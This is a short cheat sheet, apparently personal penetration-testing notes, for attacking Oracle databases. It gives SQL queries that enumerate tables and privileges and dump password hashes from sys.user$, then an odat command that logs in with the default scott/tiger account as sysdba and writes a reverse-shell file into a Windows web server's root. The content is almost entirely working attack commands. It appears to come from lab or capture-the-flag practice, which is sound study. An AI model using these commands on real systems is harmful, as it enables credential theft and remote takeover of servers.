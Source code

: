 # CheatSheet
```SQL
SQL> SELECT table_name FROM all_tables;
SQL> SELECT * FROM user_role_privs;
SQL> select name, password from sys.user$;
```
Note: We can upload a [[Reverse Shell]] if the web server is running, using [[odat]]
```bash
$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot <shell-file> ./<shell-file>
```